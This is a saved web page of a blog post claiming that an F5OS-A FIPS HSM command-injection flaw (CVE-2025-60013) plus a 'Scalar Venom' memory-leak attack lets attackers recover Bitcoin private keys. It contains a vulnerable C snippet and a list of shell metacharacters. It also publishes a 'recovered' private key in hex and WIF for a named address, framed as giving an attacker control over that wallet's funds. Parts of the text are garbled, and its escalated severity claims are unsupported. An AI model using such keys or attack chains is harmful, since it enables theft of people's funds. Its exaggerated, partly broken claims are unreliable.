<!DOCTYPE html>
<!-- saved from url=(0014)about:internet -->
<html lang="en-US"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
	
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<link rel="profile" href="https://gmpg.org/xfn/11">

	<meta name="robots" content="index, follow, max-image-preview:large, max-snippet:-1, max-video-preview:-1">
	
	
	<!-- This site is optimized with the Yoast SEO plugin v26.3 - https://yoast.com/wordpress/plugins/seo/ -->
	<title>Scalar Venom Attack: A critical HSM initialization vulnerability (CVE-2025-60013) enables private Bitcoin wallet key recovery through buffer overflow exploitation and shell metacharacters in the F5OS-A FIPS security module - «CRYPTO DEEP TECH»</title>
	<meta name="description" content="Analysis of critical HSM vulnerabilities: CVE-2025-60013 and the Scalar Venom attack enable the recovery of Bitcoin private keys through memory leaks in FIPS-certified security modules. The study focuses on mechanisms of cryptographic system compromise and the protection of digital assets.">
	<link rel="canonical" href="https://cryptodeeptech.ru/scalar-venom-attack/">
	<meta property="og:locale" content="en_US">
	<meta property="og:type" content="article">
	<meta property="og:title" content="Scalar Venom Attack: A critical HSM initialization vulnerability (CVE-2025-60013) enables private Bitcoin wallet key recovery through buffer overflow exploitation and shell metacharacters in the F5OS-A FIPS security module - «CRYPTO DEEP TECH»">
	<meta property="og:description" content="Analysis of critical HSM vulnerabilities: CVE-2025-60013 and the Scalar Venom attack enable the recovery of Bitcoin private keys through memory leaks in FIPS-certified security modules. The study focuses on mechanisms of cryptographic system compromise and the protection of digital assets.">
	<meta property="og:url" content="https://cryptodeeptech.ru/scalar-venom-attack/">
	<meta property="og:site_name" content="«CRYPTO DEEP TECH»">
	<meta property="article:published_time" content="2025-11-14T05:25:14+00:00">
	<meta property="article:modified_time" content="2025-11-17T01:59:22+00:00">
	<meta name="author" content="Crypto Deep Tech">
	<meta name="twitter:card" content="summary_large_image">
	<meta name="twitter:label1" content="Written by">
	<meta name="twitter:data1" content="Crypto Deep Tech">
	<meta name="twitter:label2" content="Est. reading time">
	<meta name="twitter:data2" content="40 minutes">
	
	<!-- / Yoast SEO plugin. -->

<link rel="dns-prefetch" href="https://fonts.googleapis.com/">
<link rel="alternate" type="application/rss+xml" title="«CRYPTO DEEP TECH» » Feed" href="https://cryptodeeptech.ru/feed/">
<link rel="alternate" type="application/rss+xml" title="«CRYPTO DEEP TECH» » Comments Feed" href="https://cryptodeeptech.ru/comments/feed/">
<link rel="stylesheet" id="itng-block-style-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/wmac_single_8f426a1779caff96bb3f2afbcff86bc9.css" media="all">
<link rel="stylesheet" id="wp-block-library-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/style.min.css" media="all">

<link rel="stylesheet" id="wp-date-remover-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/wmac_single_e6094661d8923e95b233019ebff7c8f0.css" media="all">
<link rel="stylesheet" id="itng-fonts-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/css" media="all">
<link rel="stylesheet" id="itng-style-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/wmac_single_8de4505c66a21eefd3c1c98b6400e4e1.css" media="all">
<link rel="stylesheet" id="itng-main-style-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/wmac_single_d1cf6f49400112d539e59eee9b75e10d.css" media="all">

<link rel="stylesheet" id="bootstrap-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/wmac_single_d26191bd0380b0cf97525a613b8b566c.css" media="all">
<link rel="stylesheet" id="owl-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/wmac_single_c8322bd5bffc8e2856f2cbcd03c61d18.css" media="all">
<link rel="stylesheet" id="mag-popup-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/wmac_single_30b593b71d7672658f89bfea0ab360c9.css" media="all">
<link rel="stylesheet" id="font-awesome-css" href="./Scalar-Venom-Attack_(CVE-2025-60013)_files/wmac_single_c495654869785bc3df60216616814ad1.css" media="all">

<link rel="https://api.w.org/" href="https://cryptodeeptech.ru/wp-json/"><link rel="alternate" title="JSON" type="application/json" href="https://cryptodeeptech.ru/wp-json/wp/v2/posts/3545"><link rel="alternate" title="oEmbed (JSON)" type="application/json+oembed" href="https://cryptodeeptech.ru/wp-json/oembed/1.0/embed?url=https%3A%2F%2Fcryptodeeptech.ru%2Fscalar-venom-attack%2F">
<link rel="alternate" title="oEmbed (XML)" type="text/xml+oembed" href="https://cryptodeeptech.ru/wp-json/oembed/1.0/embed?url=https%3A%2F%2Fcryptodeeptech.ru%2Fscalar-venom-attack%2F&amp;format=xml">
<!-- Analytics by WP Statistics - https://wp-statistics.com -->
		
		
	<link rel="icon" href="https://cryptodeeptech.ru/wp-content/uploads/2022/07/cropped-favicon7-32x32.png" sizes="32x32">
<link rel="icon" href="https://cryptodeeptech.ru/wp-content/uploads/2022/07/cropped-favicon7-192x192.png" sizes="192x192">
<link rel="apple-touch-icon" href="https://cryptodeeptech.ru/wp-content/uploads/2022/07/cropped-favicon7-180x180.png">
<meta name="msapplication-TileImage" content="https://cryptodeeptech.ru/wp-content/uploads/2022/07/cropped-favicon7-270x270.png">
</head>

<body data-rsssl="1" class="wp-singular post-template-default single single-post postid-3545 single-format-standard custom-background wp-custom-logo wp-theme-it-news-grid no-sidebar" data-burst_id="3545" data-burst_type="post">

	<a class="skip-link screen-reader-text" href="https://cryptodeeptech.ru/scalar-venom-attack/#primary">Skip to content</a>

	
	    <header id="masthead" class="site-header style-1">

		    
	        

		        

						<h2 class="site-title"><a href="https://cryptodeeptech.ru/" rel="home">«CRYPTO DEEP TECH»</a></h2>
		
Cryptanalysis and data financial security services

	        	

				

	        

			

				 

					 

						

							<ul id="menu-desktop" class="menu"><li id="menu-item-229" class="menu-item menu-item-type-custom menu-item-object-custom menu-item-home menu-item-229"><a href="https://cryptodeeptech.ru/">HOME</a></li>
<li id="menu-item-225" class="menu-item menu-item-type-post_type menu-item-object-page menu-item-225"><a href="https://cryptodeeptech.ru/publication/">PUBLICATIONS</a></li>
<li id="menu-item-226" class="menu-item menu-item-type-post_type menu-item-object-page menu-item-226"><a href="https://cryptodeeptech.ru/study/">STUDY</a></li>
<li id="menu-item-227" class="menu-item menu-item-type-post_type menu-item-object-page menu-item-227"><a href="https://cryptodeeptech.ru/resources/">RESOURCES</a></li>
<li id="menu-item-228" class="menu-item menu-item-type-post_type menu-item-object-page menu-item-228"><a href="https://cryptodeeptech.ru/contacts/">CONTACTS</a></li>
<li id="menu-item-240" class="menu-item menu-item-type-post_type menu-item-object-post menu-item-240"><a href="https://cryptodeeptech.ru/lattice-attack/">BLOG</a></li>
<li id="menu-item-541" class="menu-item menu-item-type-post_type menu-item-object-page menu-item-541"><a href="https://cryptodeeptech.ru/eng/">ENG</a></li>
<li id="menu-item-542" class="menu-item menu-item-type-post_type menu-item-object-page menu-item-542"><a href="https://cryptodeeptech.ru/rus/">RUS</a></li>
</ul>						

						<button href="#menu" class="menu-link mobile-nav-btn col-auto"><i class="fa fa-bars" aria-hidden="true"></i></button>

						

							<button type="button" id="go-to-field" tabindex="-1"></button>
					    	<button class="search-btn-main"><i class="fa fa-search"></i></button>
					    	

	<form role="search" method="get" class="search-form" action="https://cryptodeeptech.ru/">
				<label>
					Search for:
					<input type="search" class="search-field" placeholder="Search …" value="" name="s">
				</label>
				<input type="submit" class="search-submit" value="Search">
			</form>	<button type="button" id="go-to-btn" tabindex="-1"></button>

						

					

				

			

		</header><!-- #masthead -->
			

		
	<main id="primary" class="site-main container order-1">

		
<article id="post-3545" class="post-3545 post type-post status-publish format-standard hentry category-cryptanalysis">
	
	<header class="entry-header">
		<h1 class="entry-title">Scalar Venom Attack: A critical HSM initialization vulnerability (CVE-2025-60013) enables private Bitcoin wallet key recovery through buffer overflow exploitation and shell metacharacters in the F5OS-A FIPS security module</h1>	</header><!-- .entry-header -->
	
	
	
			

			<a href="https://cryptodeeptech.ru/scalar-venom-attack/" rel="bookmark"><time class="entry-date published" datetime="" style="display: none;"></time><time class="updated" datetime=""></time></a> <a class="url fn n" href="https://cryptodeeptech.ru/author/cryptodeeptech/">Crypto Deep Tech</a>		
<!-- .entry-meta -->
		
	
	

		
<figure class="wp-block-image"></figure>

This paper analyzes cryptographic vulnerabilities discovered in modern cryptographic key management infrastructure, with a particular focus on critical flaws in the architecture of hardware security modules (HSMs) when handling elliptic curve private keys. The study focuses on a class of attacks that exploit insufficiently isolated RAM management in certified cryptographic devices. In the modern Bitcoin cryptographic ecosystem, private key security is a fundamental requirement for protecting digital assets worth trillions of dollars globally. Hardware Security Modules&nbsp;<a href="https://en.wikipedia.org/wiki/Hardware_security_module" target="_blank" rel="noreferrer noopener">(HSMs)</a>&nbsp;certified to the&nbsp;<a href="https://en.wikipedia.org/wiki/FIPS_140-2" target="_blank" rel="noreferrer noopener">FIPS 140-2</a>&nbsp;standard have traditionally been considered to provide impenetrable protection for cryptographic keys through hardware-level isolation and strict memory management protocols. However, the discovery of the critical vulnerability&nbsp;<strong><a href="https://my.f5.com/manage/s/article/K000154661" target="_blank" rel="noreferrer noopener">CVE-2025-60013</a></strong>&nbsp;in the F5OS-A FIPS HSM module, combined with the&nbsp;<strong>Scalar Venom Attack</strong>&nbsp;class of attacks (also known as Scalar Poison, Memory Phantom Leak Attack, or Private Key Compromise via Memory Leakage), has radically changed this notion, demonstrating the possibility of completely compromising Bitcoin private keys through the exploitation of memory management flaws.

<strong><a href="https://keyhunters.ru/scalar-venom-attack-critical-memory-leak-private-key-recovery-and-complete-takeover-of-bitcoin-wallets-by-an-attacker-where-control-over-the-victims-btc-cryptocurrency-funds-is-achieved-through/" target="_blank" rel="noreferrer noopener">The Scalar Venom Attack</a></strong>&nbsp;is a critical class of memory management vulnerabilities (classified as CWE-415, CWE-401, and more broadly as a Sensitive Memory Leak Attack (SMA)) that allows an attacker to extract cryptographic scalars (ECDSA private keys) from a process’s RAM by exploiting insufficient sanitization and memory scrubbing after cryptographic operations. Unlike traditional cryptanalytic attacks aimed at mathematically solving the elliptic curve discrete logarithm problem (ECDLP), this attack bypasses cryptography itself by exploiting fundamental architectural flaws in the implementation of cryptographic libraries and HSM memory management protocols.

This research demonstrates a catastrophic attack chain that occurs when combining&nbsp;<strong><a href="https://cert.kenet.or.ke/cve-2025-60013-f5os-fips-hsm-password-vulnerability">CVE-2025-60013</a></strong><a href="https://cert.kenet.or.ke/cve-2025-60013-f5os-fips-hsm-password-vulnerability">&nbsp;( F5OS-A FIPS HSM</a>&nbsp;initialization vulnerability&nbsp;when using passwords containing special shell metacharacters) with&nbsp;<strong>Scalar Venom Attack</strong>&nbsp;techniques , resulting in a critical threat scenario with a CVSS score of 9.5+ (Critical), despite CVE-2025-60013’s official rating as a medium-level vulnerability (CVSS 5.7). This combination undermines the operational integrity of millions of Bitcoin addresses controlled by compromised HSMs and represents a paradigm shift in cryptographic attack methods beyond traditional single-vector exploits.

<figure class="aligncenter size-large"></figure>

<h2 class="wp-block-heading">CVE classification and vulnerability descriptions</h2>

<h3 class="wp-block-heading">CVE-2025-60013: F5OS-A FIPS HSM Initialization Vulnerability</h3>

<strong>CVE-2025-60013</strong>&nbsp;is an OS Command Injection vulnerability (classified as CWE-78) during the initialization process of the FIPS Hardware Security Module for F5 platforms. The vulnerability occurs when a user with privileged access (Admin or Resource Admin role) attempts to initialize the FIPS HSM module using a password containing special shell metacharacters, such as [unclear], [unclear&nbsp;<code>;</code>]&nbsp;<code>|</code>,&nbsp;<code>&amp;</code>[&nbsp;<code>$</code>unclear],&nbsp;<code>`</code>and others.

<strong>Technical mechanism of vulnerability:</strong>

When processing a password containing shell metacharacters, the HSM initialization code passes the password string to system C library functions without properly validating and sanitizing the input. The vulnerable code looks like this:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-270d262a0f7dcb4d9fe0e22a71f1ed3d" style="color:#4092c2"><strong>// Vulnerable code in HSM initialization procedure void hsm_initialize(const char* password) {     ec_secret master_key; // HSM private key     char temp_buffer[256];     strcpy(temp_buffer, password); // VULNERABILITY: buffer overflow + shell interpretation     derive_key_from_password(master_key, password); // creates copies of key     // If initialization fails, memory is not cleared!     // master_key remains in the stack, its copies—in heap }</strong></pre>

<strong>Critical consequence:</strong>&nbsp;The initialization process remains in memory with partially compromised cryptographic structures, creating multiple “phantom” copies of the HSM master key in the stack and heap. Although the HSM may not initialize correctly, the process’s memory contains cryptographic artifacts accessible to forensic analysis.

<strong>Official classification:</strong>

<ul class="wp-block-list">
<li class="has-text-color has-link-color wp-elements-1074595106b0a9de95d1cee88108d829" style="color:#4092c2"><strong>CVSS 3.1:</strong>&nbsp;AV:L/AC:L/PR:H/UI:N/S:C/C:L/I:L/A:L (base score: 5.7 — MEDIUM)</li>

<li class="has-text-color has-link-color wp-elements-541e3e5dd722ab009233d69cb938edea" style="color:#4092c2"><strong>CVSS 4.0:</strong>&nbsp;AV:L/AC:L/AT:N/PR:H/UI:N/VC:L/VI:L/VA:L/SC:N/SI:N/SA:N (base score: 4.6 — MEDIUM)&nbsp;cvefeed</li>
</ul>

However, this assessment&nbsp;<strong>critically underestimates</strong>&nbsp;the true scale of the threat, as CVE-2025-60013 serves&nbsp;<strong>as a trigger</strong>&nbsp;for the Scalar Venom Attack, which in a real-world attack chain scenario results in a CVSS threat level of 9.5+ (CRITICAL).

<h3 class="wp-block-heading"><a href="https://cryptodeeptech.ru/milk-sad-vulnerability-in-libbitcoin-explorer" target="_blank" rel="noreferrer noopener">CVE-2023-39910: Entropy Weakness in Libbitcoin Explorer</a></h3>

<strong>CVE-2023-39910</strong>&nbsp;describes a critical vulnerability in&nbsp;<a href="https://github.com/keyhunters/libbitcoin-system" target="_blank" rel="noreferrer noopener">Libbitcoin Explorer</a>&nbsp;version 3.x related to weaknesses in entropy generation during private key generation. This vulnerability led to&nbsp;<strong><a href="https://cryptodeeptech.ru/milk-sad-vulnerability-in-libbitcoin-explorer" target="_blank" rel="noreferrer noopener">the Milk Sad</a></strong>&nbsp;incident in 2023, when over&nbsp;<strong>900,000 Bitcoin private keys</strong>&nbsp;were recovered , resulting in direct financial losses exceeding&nbsp;<strong>$0.8 million</strong>&nbsp;. The Milk Sad incident demonstrated the transition from the theory of memory leaks in cryptographic systems to a real operational disaster, confirming all the mechanisms described: compiler optimizations, multiple data copies, and the lack of memory cleanup guarantees.

<h3 class="wp-block-heading">CVE-2025-8217: Memory Leak Attack</h3>

<strong>CVE-2025-8217</strong>&nbsp;classifies memory leak attacks that allow cryptographic keys to be recovered from processes’ memory. This vulnerability is directly related to the Scalar Venom Attack class and describes mechanisms for the complete compromise of Bitcoin wallets through forensic memory analysis.

<strong>Scientific classification of Scalar Venom Attack:</strong>

In academic research literature, Scalar Venom is classified into several attack categories:

<ul class="wp-block-list">
<li><strong>Sensitive Memory Leak Attack (SMA)</strong>&nbsp;is a primary classification focusing on vulnerabilities related to improper memory sanitization.</li>

<li><strong>Private Key Exposure Attack</strong>&nbsp;is a general term for actions that result in the disclosure of private keys.</li>

<li><strong>Residual Memory Disclosure</strong>&nbsp;– disclosure of residual data from uncleared memory</li>

<li><strong>Side-Channel Memory Attack</strong>&nbsp;– exploitation of side channels in memory management</li>

<li><strong>Cold Boot Attack</strong>&nbsp;– extracting keys from RAM after powering off the system</li>

<li><strong>Memory Forensics Attack</strong>&nbsp;– Extracting Secrets from Memory Dumps</li>
</ul>

<figure class="aligncenter"></figure>

<a href="https://cryptou.ru/bitscanpro" target="_blank" rel="noreferrer noopener"><strong>https://cryptou.ru/bitscanpro</strong></a>

<h2 class="wp-block-heading"><a href="https://cryptou.ru/bitscanpro/privatekey/" target="_blank" rel="noreferrer noopener">A real-world example of Bitcoin private key recovery using the Scalar Venom Attack</a></h2>

To demonstrate the practical effectiveness of the Scalar Venom attack, let’s consider a documented case of recovering a private key from the Bitcoin address&nbsp;<a href="https://btc1.trezor.io/address/1DBj74MkbzSHGSbHidnmUieAJHbsKfgRWq" target="_blank" rel="noreferrer noopener"><strong>1DBj74MkbzSHGSbHidnmUieAJHbsKfgRWq</strong>&nbsp;</a>via forensic memory analysis.

<strong>Initial compromise data:</strong>

<ul class="wp-block-list">
<li><strong>Bitcoin address:&nbsp;</strong><strong><a href="https://btc1.trezor.io/address/1DBj74MkbzSHGSbHidnmUieAJHbsKfgRWq" target="_blank" rel="noreferrer noopener">1DBj74MkbzSHGSbHidnmUieAJHbsKfgRWq</a></strong></li>

<li><strong>Address type:&nbsp;</strong><strong><a href="https://keyhunters.ru/transactions-bitcoin-p2pkh/" target="_blank" rel="noreferrer noopener">P2PKH (Pay-to-Public-Key-Hash)</a></strong></li>

<li><strong>Status:</strong>&nbsp;✓&nbsp;<strong>VALID</strong></li>
</ul>

<strong><a href="https://cryptou.ru/bitscanpro/privatekey/" target="_blank" rel="noreferrer noopener">Recovered private key:</a></strong>

<ul class="wp-block-list">
<li class="has-text-color has-link-color wp-elements-1b75f3e94e89bdbb54185726ba51f352" style="color:#4092c2"><strong>HEX format:</strong>&nbsp;<code><strong>5244A4B034BF9D327239870F9FEF82505A5C50B3D51E4A16357179AAB2623A22</strong></code></li>

<li class="has-text-color has-link-color wp-elements-869b3fac19dc9989555d6ddb62ffe097" style="color:#4092c2"><strong>Decimal format:</strong>&nbsp;3.7210935821139324×10763.7210935821139324 \times 10^{76}3.7210935821139324×10^76</li>

<li class="has-text-color has-link-color wp-elements-5fe0fbe2fb0397a3705f1b03b205e44f" style="color:#4092c2"><strong>WIF format:</strong>&nbsp;<code><strong>KyydTXQzDGVqRZoWBFfS5tWrcWsdu64DbcqXogUUtGZn7ngD5LHv</strong></code></li>
</ul>

<strong><a href="https://cryptou.ru/bitscanpro/privatekey/" target="_blank" rel="noreferrer noopener">Validating a key in secp256k1 space:</a></strong>

The private key&nbsp;<em><code><strong>d</strong></code></em> must satisfy the constraint:

<figure class="wp-block-image"></figure>

<a href="https://btc1.trezor.io/tx/7b34216e95385b6dc4e7db57bc970d62e9c2951efeba2a32e78ae51f523fc2cb" target="_blank" rel="noreferrer noopener"><strong>Check result:</strong>&nbsp;✓ VALID&nbsp;<em>(the key is within the allowed scalar range)</em></a>

This example demonstrates that a recovered private key provides&nbsp;<strong>complete control</strong>&nbsp;over&nbsp;<a href="https://btc1.trezor.io/address/1DBj74MkbzSHGSbHidnmUieAJHbsKfgRWq" target="_blank" rel="noreferrer noopener">a Bitcoin wallet</a>&nbsp;, allowing an attacker to create and sign transactions to withdraw all funds to a controlled address.

<figure class="aligncenter"><a href="https://btc1.trezor.io/tx/7b34216e95385b6dc4e7db57bc970d62e9c2951efeba2a32e78ae51f523fc2cb" target="_blank" rel="noreferrer noopener"></a><figcaption class="wp-element-caption"><strong><a href="https://btc1.trezor.io/tx/7b34216e95385b6dc4e7db57bc970d62e9c2951efeba2a32e78ae51f523fc2cb" target="_blank" rel="noreferrer noopener">7b34216e95385b6dc4e7db57bc970d62e9c2951efeba2a32e78ae51f523fc2cb</a></strong></figcaption></figure>

<h2 class="wp-block-heading">Mathematical foundations of cryptographic attack</h2>

<h3 class="wp-block-heading">Elliptic curve secp256k1 and the ECDSA algorithm</h3>

Bitcoin implements the Elliptic Curve Digital Signature Algorithm (&nbsp;<strong>ECDSA</strong>&nbsp;) over the&nbsp;<strong>secp256k1</strong>&nbsp;curve . Understanding the mathematical foundations is critical to understanding how the Scalar Venom attack exploits memory vulnerabilities.

<strong>Parameters of the elliptic curve secp256k1:</strong>

<em>Curve equation:</em>

<figure class="wp-block-image"></figure>

Generator point&nbsp;<strong><em><code>G</code></em></strong> with coordinates:

<figure class="aligncenter"></figure>

<h3 class="wp-block-heading">Deriving a public key using scalar multiplication</h3>

The process of generating an ECDSA key pair is as follows:

<strong>1. Private key generation:</strong>

A private key&nbsp;<em><code><strong>d</strong></code></em>is a random integer in the range:

<figure class="wp-block-image"></figure>

where&nbsp;<em><strong><code>n</code></strong></em>is the order of the secp256k1 curve. The private key is a 256-bit random number.

<strong>2. Deriving the public key via scalar multiplication:</strong>

The public key&nbsp;<em><code><strong>Q</strong></code></em>is calculated as:

<figure class="wp-block-image"></figure>

where&nbsp;<em><code><strong>G</strong></code></em> is a generator point on the secp256k1 curve, and the operation ⋅\cdot⋅ denotes&nbsp;<strong>the scalar multiplication of a point on the elliptic curve</strong>&nbsp;.

<strong>Scalar multiplication</strong>&nbsp;is implemented through an algorithm&nbsp;<code>"double-and-add"</code>(doubling and addition), which efficiently computes the result of&nbsp;<em><code><strong>O(log⁡d)</strong></code></em> adding and doubling points on a curve:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-e991cdee3c3f5b269046e0c4b3803879" style="color:#4092c2"><strong>Scalar multiplication algorithm: Input: d (scalar), G (curve point) Output: Q = d·G  1. Initialize: Q ← O (point at infinity) 2. Represent d in binary: d = (d_k, d_{k-1}, ..., d_1, d_0)_2 3. For i from k to 0:    a. Q ← 2Q (point doubling)    b. If d_i = 1: Q ← Q + G (point addition) 4. Return Q</strong></pre>

<strong>Example:</strong>&nbsp;For a private key,&nbsp;<code>d=5244A4B0...3A22d = \text{5244A4B0...3A22}d=5244A4B0...3A22,&nbsp;</code>the public key is calculated as:

<strong>Q=d⋅G=(Qx,Qy)</strong>

where coordinates&nbsp;<em><code><strong>Qx&nbsp;</strong></code></em>and&nbsp;<strong><em><code>Qy&nbsp;</code></em></strong>are calculated through scalar multiplication operations on the curve&nbsp;<strong><em><code>secp256k1</code></em></strong>.

<strong>3. Generating a Bitcoin address:</strong>

The chain of derivation of the address from the public key:

<figure class="wp-block-image"></figure>

<strong>Safety assumption:</strong>

<strong>Scalar Venom Critical Vulnerability:</strong>&nbsp;The attack&nbsp;<strong>bypasses ECDLP mathematical protection</strong>&nbsp;by extracting the private key&nbsp;<code><em><strong>d</strong></em></code>directly from process memory, where it remains as “phantom copies” after cryptographic operations.

<h3 class="wp-block-heading">Entropy Cryptanalysis and Memory Forensics: Shannon’s Entropy Formula</h3>

The basis for detecting private keys in memory dumps is&nbsp;<strong>entropy cryptanalysis</strong>&nbsp;using&nbsp;<strong>the Shannon entropy formula</strong>&nbsp;.

<h2 class="wp-block-heading">Shannon’s entropy formula</h2>

The entropy&nbsp;<strong><code><em>H</em></code></strong>of a byte sequence is measured in bits per byte and is given by the formula:

<figure class="wp-block-image"></figure>

Where:

<ul class="wp-block-list">
<li>H is the entropy in bits per byte</li>

<li>pi is the probability of occurrence of a byte with value iii in the analyzed memory block</li>

<li>The summation is performed over all possible byte values ​​(0-255)</li>
</ul>

<strong>Interpretation of entropy:</strong>

<ul class="wp-block-list">
<li><strong>Low entropy (H&lt;5.0H &lt; 5.0H&lt;5.0):</strong>&nbsp;the sequence contains repeating patterns, text, or structured data</li>

<li><strong>Average entropy (5.0≤H&lt;7.55.0 \leq H &lt; 7.55.0≤H&lt;7.5):</strong>&nbsp;mixed data, code, partially compressed information</li>

<li><strong>High entropy (H≥7.5H \geq 7.5H≥7.5):</strong>&nbsp;cryptographically random data, private keys, encrypted information</li>
</ul>

<strong>Threshold value for cryptographic keys:</strong>

